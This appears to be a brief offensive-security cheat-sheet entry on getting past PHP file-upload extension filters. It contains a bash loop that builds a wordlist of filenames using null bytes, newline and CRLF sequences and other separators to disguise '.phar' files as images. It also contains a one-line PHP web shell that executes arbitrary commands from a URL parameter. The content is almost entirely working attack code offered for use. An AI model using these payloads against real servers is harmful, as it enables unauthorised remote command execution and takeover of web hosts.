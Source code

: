Escape both whitelist and blacklist checks for php servers
```bash
ext=".phar";
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
        echo "test$char$ext.jpg" >> wordlist.txt
        echo "test$ext$char.jpg" >> wordlist.txt
        echo "test.jpg$char$ext" >> wordlist.txt
        echo "test.jpg$ext$char" >> wordlist.txt
done
```

Example test.php

```php
<?php echo(shell_exec($_GET['cmd'])); ?>
```
